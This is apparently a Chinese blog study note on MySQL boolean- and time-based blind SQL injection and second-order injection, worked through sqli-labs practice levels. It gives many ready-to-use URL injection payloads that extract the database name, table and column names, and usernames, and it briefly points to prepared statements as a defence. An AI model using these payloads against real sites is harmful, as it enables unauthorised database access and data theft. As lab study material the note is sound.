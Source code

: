 # 07-mysql盲注




# SQL测试-基于 布尔,延时 盲注

>场景：无回显，并且没有报错和其他显示
>能用布尔就不用延迟

**几个相关函数：**
`regexp`       regexp '^xiaodi[a-z]' 匹配xiaodi及xiaodi...等
`if`       if(条件,5,0) 条件成立 返回5 反之 返回0
`sleep`    sleep(5) SQL语句延时执行5秒
`mid`    mid(a,b,c)从位置 b 开始， 截取 a 字符串的 c 位
`substr`   substr(a,b,c)从 b 位置开始， 截取字符串 a 的 c 长度
`left`    left(database(),1)，database()显示数据库名称， left(a,b)从左侧截取 a 的前 b 位
`length`    length(database())=8，判断数据库database()名的长度
`ord`=`ascii`     ascii(x)=101，判断x的ascii码是否等于101，即email中的字母e
`IFNULL()`  函数用于判断第一个表达式是否为 NULL，如果为 NULL 则返回第二个参数的值，如果不为 NULL 则返回第一个参数的值。
`CAST()`和`CONVERT()`函数可用来获取一个类型的值，并产生另一个类型的值。两者具体的语法如下：`CAST(value as type);`        `CONVERT(value, type);`

#### 基于布尔(逻辑)盲注

Less-5
用burp批量跑
**0x01 获取`数据库`名操作Payload：**     left()
获取数据库名长度值
`?id=1' and length(database())=8 %23`

获取数据库名第一位值
`?id=1' and left(database(),1)='s' %23`     等于
`?id=1' and left(database(),1)>'a' %23`     大于

获取数据库名第二位值
`?id=1' and left(database(),2) > 'sa' %23`
`?id=1' and left(database(),2) = 'se' %23`



**0x02 获取`表名`操作Payload：**     ascii(substr())
获取表名第一个第一位的值（下面这个是获取表名中第一个表，的第二位的值）
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 %23`
获取表名第一个第二位的值
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=101 %23`
获取表名第二个第一位的值
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=101 %23`

用burp批量跑(最后一种模式，设置两个变量  limit $0, 1), $1,1))=115)   



**0x03 获取`列名`操作Payload：**    regxp
获取列名regexp 查询users表第一个列名是否有us...列名
`?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and table_name regexp '^us[a-z]' limit 0,1)--+`



**0x04 获取`数据`操作Payload：**    ord(mid())
获取数据 security.users表中username列名的第一个第一位
`?id=1' and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+`
(获取username中的第一行的第一个字符的ascii，与68进行比较)




#### 基于延时盲注

**0x01 获取数据库名操作Payload：**     if(条件，成立返回值，不成立的返回值)
获取数据库名第一个第一位
`?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+`
可以把sleep放外面：and sleep(if 'x'='yx, 5, 0)

**0x02 获取表名操作Payload：**
获取列名第一个第一位
`?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100,sleep(5),1)--+`

>后续参考：https://www.cnblogs.com/xishaonian/p/6113965.html

-----



## SQL二次注入测试

**案例测试**：
less-24 及实际举例
25-30关卡好多是二次注入

> 自己练习

**应用范围：**
我们注册一个用户后，然后进入用户中心，对应的url地址： xxx.php?user=xiaodi
如果把注册的用户名改为: `xx' union select 1,2,3 -- `  
总之: 将注入语句让web写入到数据库中，web在调用数据库中数据查询时，就触发了...



###### 原理

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5.png"></img>



#### mybatis以及预编译如何防止SQL注入


>参考：https://www.cnblogs.com/haojun/p/10682407.html https://www.cnblogs.com/yangzailu/p/11381765.html

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/07-mysql%E7%9B%B2%E6%B3%A8/  

